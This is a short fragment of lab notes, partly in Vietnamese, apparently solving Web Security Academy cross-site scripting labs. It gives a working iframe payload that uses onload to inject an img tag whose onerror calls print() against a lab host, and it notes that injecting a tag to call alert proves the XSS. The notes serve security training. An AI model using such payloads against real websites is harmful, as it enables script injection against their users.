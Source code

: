 Lab 6: Payload `<iframe src="https://0a51003e030f3021827b9f1200680039.web-security-academy.net/#" onload="this.src+='<img src=0 onerror=print()>'"></iframe>`

Lab 10: Inject html tag để gọi được gọi được `alert` để chứng minh cho việc web dính XSS nâng cao hơn xíu
